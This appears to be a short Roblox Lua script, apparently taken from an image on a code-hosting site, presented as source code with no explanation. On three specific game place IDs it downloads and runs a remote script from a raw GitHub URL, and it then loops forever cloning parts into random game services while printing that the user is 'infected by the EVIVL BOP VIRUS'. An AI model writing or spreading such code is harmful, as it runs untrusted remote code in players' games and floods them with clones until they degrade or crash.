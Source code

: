 local PlaceId = game.PlaceId
 
if PlaceId == 2753915549 or PlaceId == 4442272183 or PlaceId == 7449423635 then
	loadstring(game:HttpGet("https://raw.githubusercontent.com/xDepressionx/Free-Script/main/BloxFruit.lua"))()
end
local services = {
	game.ServerStorage,
	workspace,
	game.StarterGui,
	game.StarterPack,
	game.Stats,
	game.Players,
	game.ReplicatedStorage,
	game.ReplicatedFirst
}

while wait() do
	local clone = workspace:FindFirstChildOfClass("Part"):Clone()
	clone.Parent = services[math.random(1, #services)]
	print("U GOT INFECTED BY THE EVIVL BOP VIRUS")
end
